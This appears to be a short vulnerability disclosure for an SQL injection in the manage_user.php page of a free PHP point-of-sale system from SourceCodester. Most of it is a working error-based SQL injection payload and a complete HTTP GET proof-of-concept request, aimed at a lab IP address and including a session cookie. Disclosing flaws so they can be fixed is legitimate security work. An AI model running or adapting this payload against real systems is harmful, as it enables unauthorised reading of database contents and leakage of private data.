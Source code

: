 # SQLi-5

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html](https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /manage_user.php

[+] Payload:

```http
id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)
```

POC：

```http
GET http://10.0.10.39/kruxton/manage_user.php?id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a) HTTP/1.1
Host: 10.0.10.39
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hide-dotfile=no; PHPSESSID=98umeubo6lpdpkv3bgsekd9udu
Connection: close


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image](assets/image-20240313104308-52wr49k.png)​
